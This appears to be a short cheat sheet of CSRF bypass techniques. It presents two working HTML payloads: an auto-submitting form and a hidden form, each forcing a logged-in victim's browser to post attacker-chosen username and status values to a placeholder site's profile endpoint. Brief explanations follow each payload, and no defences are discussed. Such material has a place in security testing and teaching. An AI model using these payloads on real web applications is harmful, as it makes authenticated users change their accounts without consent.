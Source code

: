 ### Overview of Cross-Site Request Forgery (CSRF)

Cross-Site Request Forgery (CSRF) is a type of attack where an attacker tricks a user into performing an action on a web application without their consent. This happens by exploiting the trust a web application has in the user's browser, leading to unintended actions being carried out on behalf of the user (who is authenticated) without their knowledge.

### Basic CSRF Protection Bypass Techniques

**1. Basic Form Submission**

The following example demonstrates a **basic form submission** that automatically submits a POST request to a vulnerable server. The form contains parameters like `username` and `status`, which the attacker can manipulate.

```html
<form name="pls" action="<https://xxx.fr/index.php?action=profile>" method="post">
  <div class="form-group">
    <label>Username:</label>
    <input name="username" value="devsid" type="text">
  </div>
  <br>
  <div class="form-group">
    <label>Status:</label>
    <input name="status" checked="checked" type="checkbox">
  </div>
  <br>
  <button type="submit">Submit</button>
</form>
<script language="javascript">
  document.pls.submit();
</script>
```

**Details:**
- This form is automatically submitted using JavaScript when the page is loaded.
- The attacker can pre-fill the form with malicious values, such as a `username` and `status` value, causing a POST request to be made to the target server with the attacker's data.
- The user does not have to interact with the form for the attack to work, making it a form of **silent CSRF**.

---

**2. Basic Hidden Form**

This approach uses a hidden form to automatically submit a POST request with pre-set values. This method is often used in scenarios where the attacker wants to send requests in the background.

```html
<html>
<body>
  <form name="csrf" action="<https://xxx.fr/index.php?action=profile>" method="POST">
    <input type="hidden" name="username" value="aaa">
    <input type="hidden" name="status" value="on">
  </form>
  <script type="text/javascript">
    document.csrf.submit();
  </script>
</body>
</html>
```
